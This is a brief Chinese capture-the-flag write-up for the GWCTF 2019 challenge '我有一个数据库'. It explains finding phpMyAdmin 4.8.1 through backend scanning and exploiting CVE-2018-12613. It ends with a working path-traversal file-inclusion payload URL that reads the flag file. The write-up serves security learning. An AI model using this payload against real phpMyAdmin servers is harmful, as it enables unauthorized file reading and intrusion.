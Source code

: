 # 2021/07/23

## 我有一个数据库

> GWCTF 2019

### 题目

进去是一大堆乱码

![202107231](img/20210723/202107231.png)

这种题先用`ctf-wsan`等后台扫描工具扫下后台，发现`phpinfo.php`以及`phpmyadmin`

![202107232](img/20210723/202107232.png)

发现`phpmyadmin`是`4.8.1`的，存在**CVE-2018-12613**，直接利用

### payload

```
/phpmyadmin/?target=db_datadict.php%253f/../../../../../../../../flag
```

